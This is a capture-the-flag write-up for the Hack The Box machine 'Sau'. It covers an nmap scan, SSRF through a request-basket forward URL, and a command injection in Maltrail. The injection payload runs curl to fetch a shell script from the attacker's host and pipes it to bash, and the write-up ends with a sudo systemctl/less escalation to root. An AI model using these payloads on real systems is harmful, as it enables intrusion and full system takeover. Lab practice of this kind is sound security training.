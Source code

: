 # Sau(HTB)

![Untitled](/assets/images/sau/0.png)

# NMAP

```bash
# Nmap 7.93 scan initiated Thu Jan  4 23:10:22 2024 as: nmap -sC -sV -oA nmap/sau 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 04 Jan 2024 15:10:58 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 04 Jan 2024 15:10:32 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 04 Jan 2024 15:10:32 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=1/4%Time=6596CA67%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,A2,
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  4 23:11:55 2024 -- 1 IP address (1 host up) scanned in 93.21 seconds
```

# Recon

Looking at the NMAP results we see that 3 ports are open. Port 22, 80 and 55555 are all open. However, port 80 is filtered meaning that the port is open but it is inaccessible externally. My first guess when I saw that filtered port in the NMAP result was that we would most likely have to find a SSRF (Server-Side Request Forgery) to elicit requests to port 80.  With that in mind I went to check out the web server that is running on port 55555.

![Untitled](/assets/images/sau/1.png)

Visiting port 55555 brings us to this webpage. From looking at the page we learn that this webpage is just a simple HTTP request bin that collects and intercepts HTTP requests. 

Lets Create a basket and test out the website!

![Untitled](/assets/images/sau/2.png)

If we now send a curl request to the URL of our basket

```bash
curl http://10.10.11.224:5555/utslgxu
```

we get a record of our request.

![Untitled](/assets/images/sau/3.png)

# USER

Looking at the settings for my basket we find a very promising settings that could potentially lead to SSRF.

![Untitled](/assets/images/sau/4.png)

The **`Forward URL`** configuration allows the user to forward the http request to another URL and by enabling the **`Proxy Response`** we could look at the response of the request that has been forwarded to another URL. From what we’ve seen, this feature basically works like a VPN for us. 

We configure the basket to forward our request to `**[http://127.0.0.1:80](http://127.0.0.1:80)`** and show us the response.

![Untitled](/assets/images/sau/5.png)

Now let’s try to hit the port 80 that we couldn’t previously access. 

![Untitled](/assets/images/sau/6.png)

We get greeted by the web page that is running on port 80. 

> *Since only the HTML is rendered and not the JS hence why the page looks so odd*
> 

Looking at the web page we see that it is running a service called Maltrail. A quick google search will reveal that Maltrail is an open sourced malicious traffic detection system. Googling the version will also reveal a OS Command Injection vulnerability affecting the version that is running on this instance.

```python
subprocess.check_output("logger -p auth.info -t \"%s[%d]\" \"%s password for %s from %s port %s\"" % (NAME.lower(), os.getpid(), "Accepted" if valid else "Failed", params.get("username"), self.client_address[0], self.client_address[1]), stderr=subprocess.STDOUT, shell=True)
```

This line of code is the culprit for this OS Command Injection. From my understanding, the cause of this vulnerability is due to the fact that the `**shell=TRUE`** was set and our user input isn’t properly sanitized before being inserted into the command. Therefore, an attacker could just insert their own commands leading to Command injection.

Now that we are aware of the vulnerability, lets exploit it to get a SHELL on the machine.

```bash
curl http://10.10.11.224/utslgxu --data 'username=;`curl 10.10.14.123:8000/shell|bash`'
```

# Privilege Escalation

Now that we are on the box as the user puma, we can do our usual privilege escalation enumeration. Starting with `**sudo -l**`

![Untitled](/assets/images/sau/7.png)

We can see that we can run systemctl with sudo. A quick GTFO bin search will show a way to exploit this.

> [https://gtfobins.github.io/](https://gtfobins.github.io/)
> 

![Untitled](/assets/images/sau/8.png)

Basically when `**systemctl**` is ran with sudo the default pager `**less`** will be ran with sudo privileges as well. 

> A pager is **a tool for displaying the contents of files or other output on the terminal, in a user friendly way, across several screens if needed**.
> 

And when we get put into the pager in this case it is `**less` . W**e can spawn a shell with the `**!sh**` command when we are in the less pager, giving us a shell as the root user!

![Untitled](/assets/images/sau/9.png)
